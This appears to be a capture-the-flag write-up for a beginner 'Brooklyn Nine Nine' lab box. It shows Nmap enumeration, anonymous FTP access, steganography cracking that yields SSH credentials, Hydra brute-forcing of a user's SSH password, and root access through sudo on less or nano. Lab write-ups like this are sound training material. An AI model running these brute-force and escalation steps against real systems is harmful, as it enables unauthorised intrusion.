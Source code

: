 ````
# Brooklyn Nine Nine CTF Writeup

This is a **Brooklyn Nine Nine** themed CTF, designed for beginners. Let’s jump into it and check out this machine.

---

## Nmap Scan

Scanning the machine with Nmap:

```bash
nmap -sC -sV -p21,22,80 -vv -oN nmap-detailed IP
````

### Results

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.1.58
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

We have three interesting services:

* **Apache web server (80)**
* **Anonymous FTP (21)**
* **SSH (22)**

---

## Enumeration

### Port 80 - Web Server

* The website displays a **B99 banner**.
* Looking at the source code, we find an image: `brooklyn99.jpg`.

```bash
wget http://IP/brooklyn99.jpg
```

* The page hints at **steganography**.

We use `stegcracker` to analyze the image:

```bash
stegcracker brooklyn99.jpg ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
```

**Result:**

```
Successfully cracked file with password: admin
Your file has been written to: brooklyn99.jpg.out
```

```bash
cat brooklyn99.jpg.out
```

Output:

```
Holts Password:
fluffydog12@ninenine
```

So we have **credentials for SSH**.

---

### Port 21 - Anonymous FTP

Login using:

```bash
ftp IP
# username: anonymous
# password: anonymous
```

We find a file: `note_to_jake.txt`.

Contents:

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

---

### Port 22 - SSH

Using Holt’s credentials:

```bash
ssh holt@IP
# password: fluffydog12@ninenine
```

We get access to Holt’s account. Inside, we find:

* `user.txt` ✅ (user flag)
* `nano.save` (restricted to root)

Checking `/etc/passwd`, we discover two more potential users: **jake** & **amy**.

---

## Privilege Escalation

### Brute-forcing Jake’s Password

We try brute-forcing Jake’s SSH login:

```bash
hydra -l jake -P ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ssh://IP
```

**Result:**

```
[22][ssh] host: IP   login: jake   password: 987654321
```

We can now login as Jake:

```bash
ssh jake@IP
# password: 987654321
```

### Sudo Privileges

Checking Jake’s privileges:

```bash
sudo -l
```

Jake has sudo access for `less`. Using this, we can read root’s flag:

```bash
sudo less /root/root.txt
```

Flag:

```
Here is the flag: xxxxxxxxxxxxxxxxxxxxxxxxxx
```

✅ **Root access achieved!**

---

## Alternate Method

* From Holt’s account, running `sudo -l` shows sudo access for `nano`.
* Escalation to root can also be done using **nano**.

---

## Conclusion

We successfully rooted the **Brooklyn Nine Nine CTF** box by:

1. Enumerating services with Nmap
2. Extracting Holt’s SSH credentials via steganography
3. Using Anonymous FTP to confirm Jake’s weak password
4. Brute-forcing Jake’s account with Hydra
5. Escalating privileges to root using `less` (or `nano`)

🎉 **Box pwned!**

```
```

